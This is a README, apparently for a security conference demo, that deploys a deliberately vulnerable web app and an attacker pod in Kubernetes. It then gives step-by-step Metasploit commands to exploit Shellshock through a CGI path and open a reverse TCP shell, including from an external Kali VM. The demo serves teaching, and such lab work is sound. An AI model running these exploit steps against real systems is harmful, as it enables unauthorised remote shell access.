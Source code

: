 # CPX 2021 demo
<!-- vim-markdown-toc GFM -->

* [Requirements](#requirements)
* [Installation](#installation)
* [Demo](#demo)
* [Cleanup](#cleanup)
* [Attacker from external VM](#attacker-from-external-vm)
* [Tips](#tips)

<!-- vim-markdown-toc -->

# Requirements

- [Helm3](https://helm.sh/)
- *Highly recommended*:][K9S](https://github.com/derailed/k9s)
- If you want to demo using the hard way: [kubectl](https://kubernetes.io/docs/tasks/tools/install-kubectl/)

# Installation
> Make sure you are using Helm3 client
```bash
# Install our sushi restaurant web page
helm install -f cpx-sushi/values.yaml --namespace sushi --create-namespace sushi-restaurant cpx-sushi
# Install the attacker client
helm install -f attacker-cpx/values.yaml --namespace attacker --create-namespace attacker-client attacker-cpx
# Ignore the stdout printed by helm
```

# Demo

Run K9S, check the namespace 'vulnerable' and verify there are 2 pods running
there:

- metasploit-client: We will use this as the "attacker machine"
- vuln-app-cpx-helm-vulnerable: We will use this as the "victim machine"

Verify the vulnerable namespace has a LoadBalancer service which is has an
external-IP assigned. Write down this value as we will need it during the
attack phase. This will allow attacking the application even from outside the
K8S cluster.

Start a shell within the metasploit container and execute:
```bash
cd /usr/src/metasploit-framework
./msfconsole -r docker/msfconsole.rc -y $APP_HOME/config/database.yml
# The metasploit framework shall start...
```

Using the metasploit framework we will exploit the <i>apache_mod_cgi_bash_env_exec</i>:
```bash
search shellshock
# Locate the module with the name apache_mod_cgi_bash_env
use exploit/multi/http/apache_mod_cgi_bash_env_exec
# Check available options
show options
# Set RHOST to the external IP of the vuln-app-cpx-helm-vulnerable
set rhost <external-ip>
# You could also use the internal cluster IP since the metasploit pod has visibility of the vulnerable pod
set rport 80
set targeturi /cgi-bin/menu
# Set the payload
set payload linux/x86/shell/reverse_tcp
# Check if target is vulnerable
check
# Exploit vulnerability
exploit
```

At this point you may get multiple sessions opened in background mode. List
them and use one of them to exploit the reverse tcp shell:
```bash
#List sessions
sessions
# Run interactive shell in session #1
sessions -i 1
# Start running commands
whoami
ls -la
```
#Cleanup
```bash
helm uninstall sushi-restaurant -n sushi
helm uninstall attacker-client -n attacker
```
# Attacker from external VM
In order to setup the attacker machine from an external VM running a
distribution like Kali Linux, you will need to assign a public IP address to
this machine so that it is reachable. Additionally, the port where the the
reverse shell connection will be established needs to be allowed for input
connections (i.e: In AWS the security group of the EC2 instance needs to allow
input connections to port <X>)

How to run the exploit is very similar. First ssh into the Kali Linux machine:
```bash
# Start metasploit console
msfconsole
# Follow the same steps that we already described
# We will need to set a few extra options
set lhost <public-ip-of-vm>
set lport <port-that-we-allow-input-connections>
# set lport 4444
check
exploit
```

# Tips

- Use K9S client to demonstrate interactively how to perform the attack, it
  will save sometime if you need to run kubectl all the time

  
  
  
* Based on original demo created [here:](https://github.com/chkp-ivanmar/cpx-2021-demo) *
